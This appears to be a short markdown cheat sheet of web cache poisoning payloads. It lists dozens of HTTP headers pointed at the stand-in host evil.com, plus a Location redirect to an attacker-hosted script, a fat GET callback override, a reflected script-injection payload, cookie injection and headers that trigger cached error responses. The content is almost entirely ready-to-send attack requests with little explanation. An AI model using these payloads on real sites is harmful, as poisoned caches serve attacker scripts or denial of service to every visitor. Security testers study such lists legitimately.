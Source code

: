 # Cache Poisoning

> Header Response: X-Cache: hit, Body Response: evil.com

## Header Inject
```http
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: nothttps
X-Forwarded-Server: evil.com
X-Host: evil.com
\: evil.com
User-Agent: evil.com
X-Original-Url: evil.com
X-Forwarded-Proto: evil.com
X-Original-URL: evil.com
X-Get-Cache-Key: evil.com
Accept-Version: evil.com
Acunetix-Header: evil.com
Api-Version: evil.com
Content-Type: evil.com
Fastly-Client-Ip: evil.com
Fastly-Ff: evil.com
Fastly-Host: evil.com
Fastly-Ssl: evil.com
Trailer: evil.com
X-Amz-Server-Side-Encryption: evil.com
X-forwarded-Prefix: evil.com
X-Original-Host: evil.com
Handle: evil.com
X-Rewrite-url: evil.com
Authorization: evil.com
X-Amz-website-Redirect-Location: evil.com
X-Http-Method-Override: evil.com
X-Forwarded-Proto: evil.com
Capitalized host header: evil.com
```
### Location Attack
```http
Header Request
X-Forwarded-Scheme: http
X-Forwarded-Prefix: evil.com
```
```http
Header Response
Location: http://evil.com/tracking.js
```

### Fat GET Request
```http
GET /js/geolocate.js?callback=setCountryCookie
callback=arbitraryFunction
```
```http
HTTP/1.1 200 OK
BODY
arbitraryFunction({"country" : "United Kingdom"})
```

### URL Normalization
```http
GET /random</p><script>alert(1)</script>
```
```http
HTTP/1.1 404 not found
BODY
<p>
  File /random not found
</p>
</p>
  <script>alert(1)
</script>
```

## Cookie Inject
```http
Cookie: feHost=something/evil.com
```

## DOS attack
```http
X-Forwarded-Port: 123
X-Forwarded-Port: 123 
Transfer-Encoding: 123
zTRANSFER-ENCODING: dgsht --> HTTP/1.1 501 NOT_IMPLEMENTED
```
```http
Header Response
HTTP/2 400
X-Cache: hit
```

## Burp Suite Extension
Guess Headers!
Guess Eviriting!
